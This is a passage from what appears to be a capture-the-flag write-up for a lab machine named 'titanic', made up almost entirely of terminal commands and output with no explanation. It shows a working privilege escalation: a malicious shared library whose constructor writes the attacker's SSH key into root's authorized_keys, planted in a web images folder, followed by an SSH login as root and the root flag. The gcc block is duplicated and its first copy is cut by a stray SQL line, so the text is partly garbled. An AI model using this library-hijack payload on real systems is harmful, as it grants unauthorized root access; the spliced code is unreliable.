drwx------ 3 root root 4096 Feb 15 18:56 systemd-private-33a772c388c040da98b2531770d8cbd2-systemd-timesyncd.service-d0S56r
drwx------ 3 root root 4096 Feb 15 20:42 systemd-private-33a772c388c040da98b2531770d8cbd2-upower.service-gqltjw
drwx------ 2 root root 4096 Feb 15 18:56 vmware-root_612-2731021090
developer@titanic:/opt/app/static/assets/images$ cat /tmp/root.txt 
56b44559858ff9fad821f855743eb00c
```


```bash
❯ ssh-keygen
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/kali/.ssh/id_ed25519): 
Created directory '/home/kali/.ssh'.
Enter passphrase for "/home/kali/.ssh/id_ed25519" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/.ssh/id_ed25519
Your public key has been saved in /home/kali/.ssh/id_ed25519.pub
The key fingerprint is:
SHA256:NL7Kfc7xnIbkbWyumFEHUHOgFHf7n1EFFztBsCdZvqU kali@kali
The key's randomart image is:
+--[ED25519 256]--+
|        +o=.o.+*+|
|       . + + .=.+|
|        + . .+ =o|
|       o . . .o.=|
|        S . . Eo |
|         o..   .o|
|        oo.+   ..|
|     . o =++*.   |
|      o +o+*=    |
+----[SHA256]-----+
```


```bash
❯ cat ~/.ssh/id_ed25519.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIPVBBTqNhy3yVC7Y+B4znNnZ1sB5VsgS8DzIiMyZJbF kali@kali
```


```bash
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
CREATE UNIQUE INDEX `UQE_action_runner_token_token` ON `action_runner_token` (`token`)
__attribute__((constructor)) void init(){
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIPVBBTqNhy3yVC7Y+B4znNnZ1sB5VsgS8DzIiMyZJbF kali@kali' > /root/.ssh/authorized_keys");
    exit(0);
}
EOF
developer@titanic:/opt/app/static/assets/images$ ls
entertainment.jpg  exquisite-dining.jpg  favicon.ico  home.jpg  libxcb.so.1  luxury-cabins.jpg  metadata.log
developer@titanic:/opt/app/static/assets/images$ cp entertainment.jpg example.jpg
developer@titanic:/opt/app/static/assets/images$ ls
entertainment.jpg  example.jpg  exquisite-dining.jpg  favicon.ico  home.jpg  libxcb.so.1  luxury-cabins.jpg  metadata.log
developer@titanic:/opt/app/static/assets/images$ ls
entertainment.jpg  example.jpg  exquisite-dining.jpg  favicon.ico  home.jpg  libxcb.so.1  luxury-cabins.jpg  metadata.log
developer@titanic:/opt/app/static/assets/images$ ls
entertainment.jpg  example.jpg  exquisite-dining.jpg  favicon.ico  home.jpg  luxury-cabins.jpg  metadata.log
```


```bash
❯ ssh root@titanic.htb
The authenticity of host 'titanic.htb (10.10.11.55)' can't be established.
ED25519 key fingerprint is SHA256:Ku8uHj9CN/ZIoay7zsSmUDopgYkPmN7ugINXU0b2GEQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'titanic.htb' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-131-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Feb 15 10:58:14 PM UTC 2025

  System load:           0.2
  Usage of /:            68.4% of 6.79GB
  Memory usage:          15%
  Swap usage:            0%
  Processes:             234
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.55
  IPv6 address for eth0: dead:beef::250:56ff:fe94:a405


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


root@titanic:~# cat root.txt 
56b44559858ff9fad821f855743eb00c
```
